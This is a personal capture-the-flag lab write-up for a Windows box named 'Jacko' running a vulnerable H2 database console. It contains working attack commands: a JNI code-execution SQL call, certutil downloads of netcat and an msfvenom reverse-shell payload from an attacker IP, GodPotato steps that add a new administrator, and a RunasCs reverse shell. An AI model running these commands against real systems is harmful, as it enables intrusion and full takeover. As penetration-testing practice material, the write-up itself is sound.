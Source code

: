 # Jacko \[Inter]

## Report

H2 fatabase is vulnerable to JNI code execution which allows us to execute commands via 'cmd'. Powershell is not available so reverse shell either via nc64.exe or msfvenom.

User 'tony' has SeImpersonate but PrintSpoofer fumbled yet again. GodPotato though proividing a dead shell can be used to add a new user as administrator and RunasCs can be used to spawn a new shell as that user (jtrip)

## Enumeration

192.168.223.66

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: H2 Database Engine (redirect)
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8082/tcp  open  http          H2 database http console
|_http-title: H2 Console
|_http-favicon: Unknown favicon MD5: D2FBC2E4FB758DC8672CDEFB4D924540
| http-methods: 
|_  Supported Methods: GET POST
9092/tcp  open  XmlIpcRegSvc?
```

H2 1.4.199 (2019-03-13)

{% embed url="https://www.exploit-db.com/exploits/49384" %}

### Files

None

### Initial Foothold

{% code overflow="wrap" %}
```
certutil -urlcache -f http://192.168.45.187/nc64.exe nc.exe

msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.187 LPORT=8082

CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.187/shell.exe C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\Z").next()');
```
{% endcode %}

## PrivEsc

Adding powershell and cmd to PATH

`set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;`

```
SeImpersonate (PrintSpoofer DID NOT WORK)
.\GP.exe -cmd "net user /add jtrip jtrip"
.\GP.exe -cmd "net localgroup administrators jtrip /add"

PS C:\Users\tony> net user
User accounts for \\JACKO

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
jtrip                    tony                     WDAGUtilityAccount 

.\RunasCs.exe "jtrip" 'jtrip' powershell.exe -r 192.168.45.187:9001
```

## Loot

### Creds

None

### Flags

If only the stupid power didn't go off

## Proof

You kept using '\\' in certutil path which kind of messed up the SQL syntax when forward slashes work perfectly fine for directory traversal

Without mentioning the explicit full path, it was never going to work, the JNI is operating from its own directory right

Calm down, spending half an hour on a box is nothing - don't make getting frustrated take that to two hours
